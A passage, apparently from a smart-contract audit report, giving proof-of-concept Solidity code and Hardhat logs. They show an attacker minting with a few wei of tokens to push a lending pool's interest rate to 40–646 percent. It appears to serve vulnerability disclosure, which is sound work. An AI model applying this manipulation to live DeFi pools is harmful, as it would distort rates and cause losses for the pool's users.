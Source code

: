             //check after
            uint256 afterJtok = jtok.balanceOf(msg.sender);
            console.log("Attacker jtok after", afterJtok);
            //check before
            uint256 beforeUsdc = usdc.balanceOf(msg.sender);
            console.log("Attacker USDC  before", beforeUsdc);
            //transfer
            usdc.transfer(msg.sender, collateralIn);
            //check after
            uint256 afterUsdc = usdc.balanceOf(msg.sender);
            console.log("Attacker USDC After", afterUsdc);
            
        }
    }

Which contains the following settings for a mint:

    uint112 xIncrease = 3;
    uint112 yIncrease = 1000000000000000;
    uint112 zIncrease = 5; //Static 167% CDP

According to my logs in hardhat:

    Maturity:  1641859791
    Callback before: 8333825816710789998373
    Asset requested: 3
    Collateral requested: 6
    Attacker jtok before 5000000000000000000000
    Attacker jtok after 5000000000000000000003
    Attacker USDC  before 8333825816710789998373
    Attacker USDC After 8333825816710789998379
    Callback after: 8333825816710789998379
    Callback expected after: 8333825816710789998379

The attacker is only required to pay 3 wei of Asset Token and 6 wei of Collateral token. However, after the attacker’s malicious mint is up, the interest rate becomes:

    yMax: 0.0002047533146923118
    Min Interest Rate: 0.40383657499999975
    Max Interest Rate: 6.461385199999996
    zMax: 1666.6666666666667

Between 40 and 646 percent.

xyz values before and after:

    Post LP Constants: [ BigNumber { value: "5000000000000000000000" },
      BigNumber { value: "23766573461559" },
      BigNumber { value: "8333333333333333333333" },
      x: BigNumber { value: "5000000000000000000000" },
      y: BigNumber { value: "23766573461559" },
      z: BigNumber { value: "8333333333333333333333" } ]
    Attacker Jtok: 10000000000000000000000
    Attacker USDC: 10000000000000000000000
    Post Attack Constants: [ BigNumber { value: "5000000000000000000003" },
      BigNumber { value: "1023766573461559" },
      BigNumber { value: "8333333333333333333338" },
      x: BigNumber { value: "5000000000000000000003" },
      y: BigNumber { value: "1023766573461559" },
      z: BigNumber { value: "8333333333333333333338" } ]
